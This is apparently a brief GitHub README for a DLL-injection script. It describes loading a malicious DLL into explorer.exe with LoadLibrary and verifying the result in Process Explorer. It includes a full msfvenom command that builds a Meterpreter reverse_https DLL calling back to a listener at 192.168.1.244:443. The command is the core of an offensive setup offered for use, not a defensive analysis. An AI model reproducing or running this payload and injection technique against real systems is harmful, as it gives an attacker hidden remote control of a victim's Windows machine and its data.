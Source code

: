# DLL-injection
Summary: THIS IS LAME. WE WANT TO LOAD DLL FROM MEMORY
Rushed will goback and explain it better
Usually fun with injecting into video games
basic dll injection script 
script will download the following 
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.244 LPORT=443 -f dll -o met.dll       

dll will be injected into explorer.exe using loadlibrary 
![image](https://github.com/user-attachments/assets/5c7334f5-e9f1-4adb-9ec7-87610728c5fc)


you can than use the process explorer to look our injected dll into explorer.exe
![image](https://github.com/user-attachments/assets/5119ee91-002d-4781-90f1-22fbbd175e78)
